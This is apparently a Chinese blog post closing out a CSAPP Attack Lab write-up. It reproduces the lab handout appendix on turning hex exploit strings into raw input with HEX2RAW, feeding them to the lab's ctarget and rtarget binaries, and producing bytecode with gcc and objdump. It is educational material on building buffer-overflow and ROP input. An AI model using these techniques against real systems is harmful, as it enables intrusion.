累了，改日补上。很喜欢 cmu 教授的一句话 ：

*此外，第五阶段只 占 5 分，这并不是衡量所需努力的真正标准。把它看作是一个对于那些想要超越课程正常期望的人的额外加分问题。*

事已至此，先去吃个饭(￣▽￣)"。

## 对应图片：

### A. mov 指令的编码



### B.popq 指令的编码



### C.movl 指令的编码



### D. 2 字节功能空操作指令的编码



# 附录：

### **A 使用 HEX2RAW**

HEX2RAW 以**十六进制格式的字符串**作为输入。在这种格式中，每个字节值由两个十六进制数字表示。例如，字符串 `"012345"` 可以转换为十六进制格式 `"30 31 32 33 34 35 00"`。（请注意，ASCII 码中十进制数字 `x` 的十六进制表示是 `0x3x`，字符串的结尾通常用 `0x00` 作为空字节表示。）

你传递给 HEX2RAW 的十六进制字符应**使用空格（空格或换行符）分隔**。建议在编写漏洞利用字符串时，使用换行符分隔不同部分，以提高可读性。
 HEX2RAW 支持 **C 风格的块注释**，你可以用它标记字符串的不同部分。例如：

```
48 c7 c1 f0 11 40 00  /* mov  $0x40011f0,%rcx */
```

请务必在注释的起始（`/*`）和结束（`*/`）标记周围留出空格，以确保它们能够被正确忽略。

如果你在文件 `exploit.txt` 中生成了十六进制格式的漏洞利用字符串，你可以通过多种方式将其应用于 `CTARGET` 或 `RTARGET`。

1. 你可以使用 **管道（pipes）** 方式将字符串传递给 HEX2RAW：

   ```sh
   unix> cat exploit.txt | ./hex2raw | ./ctarget
   ```

2. 你可以使用 **I/O 重定向** 存储原始字符串并传输：

   ```sh
   unix> ./hex2raw < exploit.txt > exploit-raw.txt
   unix> ./ctarget < exploit-raw.txt
   ```

这种方法同样适用于 **GDB 调试环境**。

```
unix> gdb ctarget
(gdb) run < exploit-raw.tx
```

3. 你可以将原始字符串存储在文件中，并将文件名作为命令行参数提供：

    unix> ./hex2raw < exploit.txt > exploit-raw.txt
    unix> ./ctarget -i exploit-raw.txt

这种方法也可以在GDB中使用。

### B 生成字节码

使用GCC作为汇编器，OBJDUMP作为反汇编器，可以方便地生成指令序列的字节码。例如，假设你编写了一个包含以下汇编代码的文件 `example.s`：

### 手工生成的汇编代码示例
    pushq $0xabcdef    # 将值压入堆栈
    addq $17,%rax    # 将17加到%rax
    movl %eax,%edx    # 将低32位复制到%edx

代码可以包含指令和数据的混合。`#`字符右侧的任何内容都是注释。

你现在可以汇编并反汇编这个文件：

    unix> gcc -c example.s
    unix> objdump -d example.o > example.d

生成的 `example.d` 文件包含以下内容：

example.o:    文件格式 elf64-x86-64

.text 部分的反汇编：

```
00000000000000000 <.text>:
0: 68 ef cd ab 00    pushq $0xabcdef
5: 48 83 c0 11       add $0x11,%rax
9: 89 c2             mov %eax,%edx
```

底部的行显示了从汇编语言指令生成的机器码。每行左侧有一个十六进制数字，表示指令的起始地址（从0开始），而`:` 字符后的十六进制数字表示指令的字节码。因此，我们可以看到指令 `push $0xABCDEF` 的十六进制格式字节码是 `68 ef cd ab 00`。

从这个文件中，你可以获取代码的字节序列：

```
68 ef cd ab 00 48 83 c0 11 89 c2
```

这个字符串可以通过 `HEX2RAW` 工具生成目标程序的输入字符串。或者，你可以编辑 `example.d` 文件，省略多余的值并包含 C 风格的注释以提高可读性，得到：

```
68 ef cd ab 00 /* pushq $0xabcdef */  
48 83 c0 11 /* add $0x11,$rax */  
89 c2 /* mov $eax,%edx */
```

这也是一个有效的输入，你可以先通过 `HEX2RAW` 处理，然后发送给目标程序。

### 参考文献

[1] R. Roemer, E. Buchanan, H. Shacham, 和 S. Savage. 返回导向编程：系统、语言和应用。ACM 信息系统安全交易，15(1):2:1–2:34，2012 年 3 月。

[2] E. J. Schwartz, T. Avgerinos, 和 D. Brumley. Q: 漏洞利用加固变得简单。在 USENIX 安全研讨会，2011 年。

## 参考过的 blog：

[【读厚 CSAPP】III Attack Lab](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)

[CSAPP Lab：Attack Lab](https://lrl52.top/753/csapp-labattack-lab/)

